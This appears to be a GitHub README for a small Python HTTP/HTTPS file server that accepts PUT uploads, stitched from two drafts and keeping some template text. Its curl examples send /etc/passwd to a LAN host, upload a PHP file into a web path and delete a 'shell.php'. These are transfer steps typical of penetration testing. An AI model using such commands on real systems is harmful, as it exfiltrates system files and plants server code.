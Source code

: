 # Python Portable HTTP/HTTPS File Server

This Python script is a simple HTTP/HTTPS file server that allows you to upload and download files using the PUT method. It can serve files over HTTP and HTTPS protocols.

## Usage

To use this script, follow these steps:

1. Ensure you have Python 2 or Python 3 installed on your system.

2. Download the script, and make sure you have the required certificate and key files (cert.pem and key.pem) in the same directory.

3. Run the script with the following command:

   ```bash
   python file_server.py [options]


Available options:

    --http: Use HTTP version (default is HTTPS).
    --https: Use HTTPS version (default).
    -p or --port: Specify the port (default is 80 for HTTP and 443 for HTTPS).
    -i or --host: Specify the host (default is empty, allowing all interfaces).

    The script will start serving files, and you can access the file server via a web browser or other HTTP/HTTPS clients.

Features

    Supports both HTTP and HTTPS protocols.
    Supports both python version "2.7" & "3".
    Allows file uploads using the PUT method also have delete method for deleting files.
    Automatically selects an available port from a predefined list.

License

This script is released under the MIT License. See the LICENSE file for details.
Author

    Author: SUDOVIVEK
    GitHub: @sudovivek

Contributing

Contributions are welcome. Please open an issue or create a pull request.
Issues and Feedback

If you encounter any issues or have suggestions for improvement, please open an issue on GitHub.

Acknowledgments

Special thanks to the community and contributors for their support and feedback.


You should replace `[options]` in the usage section with the actual command-line options your script supports. You can also add more details about the script's functionality, how to obtain the required certificate and key files, and any other relevant information. Additionally, update the "Author" and "GitHub" sections with your information.






# Python HTTP/HTTPS File Server

This Python script allows you to run a simple HTTP/HTTPS file server and perform various file transfer operations. It supports both HTTP and HTTPS protocols.

## Prerequisites

Before running the script, you may need to generate SSL certificates if you plan to use HTTPS. Use the following command to generate self-signed certificates:

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

Usage
Running the Server

To start the server, use the following commands:

    For HTTP (default):

bash

python3 python2-http.py --http

    For HTTPS:

bash

python3 python2-http.py --https

You can also specify the IP address and port with the -i and -p options, respectively. For example:

bash

python3 python2-http.py --https -i 192.168.1.143
python3 python2-http.py --https -p 8080

Uploading Files

You can use various methods to upload files to the server:

    Using curl for HTTP:

bash

curl -v -X PUT --upload-file /etc/passwd http://192.168.1.143
curl -X PUT --data-binary "@/etc/passwd" http://192.168.1.143:8000
curl -v -X PUT -d "<?php phpinfo(); ?>" http://192.168.1.18/test/1.php

    Using curl for HTTPS (with certificate check disabled):

bash

curl -v -X PUT --upload-file /etc/passwd https://192.168.1.143 -k

    Using curl to upload and rename a file:

bash

curl -v -X PUT -T /etc/passwd https://192.168.1.143/passwd_10 -k

    Using curl to delete a file:

bash

curl -X DELETE http://192.168.1.18/test/shell.php

    Using wget to download a file:

bash

wget http://192.168.1.20:8080/file.txt
wget http://192.168.1.20:8080/file.txt -O /tmp/file.txt

    Using wget to download a file from an HTTPS server (with certificate check disabled):

bash

wget https://192.168.1.20:8080/file.txt -O /tmp/file.txt --no-check-certificate
